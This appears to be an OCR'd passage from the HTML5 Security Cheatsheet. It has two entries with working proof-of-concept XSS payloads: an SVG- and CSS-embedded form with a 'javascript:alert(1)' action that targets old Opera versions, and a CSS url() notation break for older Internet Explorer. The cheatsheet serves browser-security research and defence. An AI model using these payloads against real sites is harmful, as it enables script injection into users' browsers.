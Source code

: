 *   [http://en.wikipedia.org/wiki/Halfwidth_and_Fullwidth_Forms_Unicode_block](http://en.wikipedia.org/wiki/Halfwidth_and_Fullwidth_Forms_Unicode_block)

reporter：.mario

### SVG images containing XML data - with disabled JavaScript[#90](#90)[test](test/#90)

Opera supports the CSS property "content" for style attributes. The SVG image can contain SVG as well as HTML code. The example for Opera 10.x shows how a &lt;FORM&gt; tag can be used to trick the user into clicking a button and thus executing JavaScript. Example for Opera 12.x shows one of the problems (along with a client side DoS, running the "onblur" event, etc), which is generated because of the possibility to steal a focus via embeded SVG image. The same works of course for SVG files embedded via &lt;IMG&gt; tags.


```
<!-- Up to Opera 10.63 --> <div style=content:url(test2.svg)></div> <!-- Up to Opera 11.64 - see link below --> <!-- Up to Opera 12.x --> <div style="background:url(test5.svg)">PRESS ENTER</div>``<form xmlns="http://www.w3.org/1999/xhtml" target="_top" action="javascript:alert(1)"> <!-- this file can be crossdomain if "action" attribute refers to an external file --> <meta http-equiv="refresh" content="1;URL=test5.svg"/> <input type="submit" autofocus="autofocus"/> </form>required_mime: image/svg+xmlcrossdomain: 0path: [http://html5sec.org/test5.svg](http://html5sec.org/test5.svg)name: test5.svg
```

*   opera 10.x
*   opera 12.0

*   xss
*   svg
*   css
*   opera
*   content
*   form

*   [http://heideri.ch/opera/](http://heideri.ch/opera/)

reporter：LeverOne

### Breaking the functional notation on IE (1)[#92](#92)[test](test/#92)

To break the functional notation on IE "url()" can be used combined with a following whitespace - then followed by any non-whitespace character. The following characters* are whitespaces: IE 6,7 standards mode: 9-13,32,160,8192-8203,12288,65279 IE 8 standards mode: 1-32,127 * These are given in decimal codes.


```
<div style="background:url(http://foo.f/f oo/;color:red/*/foo.jpg);">X</div>
```

*   internet explorer 6.0
*   internet explorer latest (in older docmodes)

*   xss
*   css
*   internet explorer
*   trick
*   notation

